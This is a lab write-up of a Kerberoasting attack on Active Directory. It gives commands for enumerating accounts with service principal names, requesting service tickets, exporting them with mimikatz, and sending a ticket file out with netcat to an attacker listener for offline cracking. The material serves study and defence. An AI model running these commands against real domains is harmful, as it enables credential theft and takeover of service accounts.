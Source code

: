 ```yaml
---
description: Credential Access
---
```


# Kerberoasting

This lab explores an attack that allows any domain user to request kerberos tickets from TGS that are encrypted with NTLM hash of the plaintext password of a domain user account that is used as a service account \(i.e account used for running an IIS service\) and crack them offline avoiding AD account lockouts.

## Execution <a id="execution"></a>

Note the vulnerable domain member - a user account with `servicePrincipalName` attribute set, which is very important piece for kerberoasting - only user accounts with that property set are most likely susceptible to kerberoasting:![](https://blobscdn.gitbook.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LKEIPRKzyIL8ssJ1Eky%2F-LKEHymbOx0oOZqB-u3R%2Fkerberoast-principalname.png?alt=media&token=bb0909ca-93f7-4f52-8045-615a94f0cc6b)

Attacker setting up an nc listener to receive a hash for cracking:

```text
attacker@localnc -lvp 443 > kerberoast.bin
```

### Extracting the Ticket <a id="extracting-the-ticket"></a>

Attacker enumerating user accounts with `serverPrincipalName` attribute set:

```text
attacker@victimGet-NetUser | Where-Object {$_.servicePrincipalName} | fl
```

![](https://blobscdn.gitbook.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LKEQWnWdxN10k88vogc%2F-LKEQTo6Vvatn_DEOJ48%2Fkerberoast-enumeration.png?alt=media&token=eb2b7887-fdfd-44b1-8fe3-00d8c9d20375)

Using only built-in powershell, we can extract the susceptible accounts with:

```text
get-adobject | Where-Object {$_.serviceprincipalname -ne $null -and $_.distinguishedname -like "*CN=Users*" -and $_.cn -ne "krbtgt"}
```

![](https://blobscdn.gitbook.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LKO4btIeebtUwYK4eFR%2F-LKO52yd3HfsBmTinFHl%2Fkerberoast-powershell.png?alt=media&token=8c762564-615d-4deb-b1ee-b13b5aee29d1)

It would have been better to use the following command provided by [Sean Metcalf](https://adsecurity.org/?p=2293) purely because of the `-filter` usage \(quicker than `select-object`\), but it did not work for me:

```text
get-adobject -filter {serviceprincipalname -like “*sql*”} -prop serviceprincipalname
```

Additionally, user accounts with SPN set could be extracted with a native windows binary:

```text
 setspn -T offense -Q */*
```

![](https://blobscdn.gitbook.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LKIfG6BsIx4nzjVhA5g%2F-LKIfXzbGIXjdq2p7WgL%2Fkerberoast-setspn.png?alt=media&token=74471cd8-c62a-43b7-a195-bcbbbf1b1aca)

Attacker requesting a kerberos ticket \(TGS\) for a user account with `servicePrincipalName` set to `HTTP/dc-mantvydas.offense.local`- it gets stored in the memory:

```text
attacker@victimAdd-Type -AssemblyName System.IdentityModel  New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/dc-mantvydas.offense.local"
```

![](https://blobscdn.gitbook.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LKEIPRKzyIL8ssJ1Eky%2F-LKEIBbmJjX4MMuicYOd%2Fkerberoast-kerberos-token.png?alt=media&token=2e1874f2-0239-4842-861d-9afc8c460f9f)

Using mimikatz, the attacker extracts kerberos ticket from the memory and exports it to a file for cracking:

```text
attacker@victimmimikatz # kerberos::list /export
```

![](https://blobscdn.gitbook.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LKEIPRKzyIL8ssJ1Eky%2F-LKEIGe2N7anuEWUEzEI%2Fkerberoast-exported-kerberos-tickets.png?alt=media&token=4f59a38f-c80b-46b0-97f1-4009673381b0)

Attacker sends the exported service ticket to attacking machine for offline cracking:

```text
attacker@victimnc 10.0.0.5 443 < C:\tools\mimikatz\x64\2-40a10000-spotless@HTTP~dc-mantvydas.offense.local-OFFENSE.LOCAL.kirbi
```

### Cracking the Ticket <a id="cracking-the-ticket"></a>

Attacker brute forces the password of the service ticket:

```text
attacker@localpython2 tgsrepcrack.py pwd kerberoast.bin
```

![](https://blobscdn.gitbook.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LKEIPRKzyIL8ssJ1Eky%2F-LKEILsCTgLjlbxn9h7B%2Fkerberoast-cracked.png?alt=media&token=f4e6ec4f-9ed9-4217-a665-b86ca678f861)

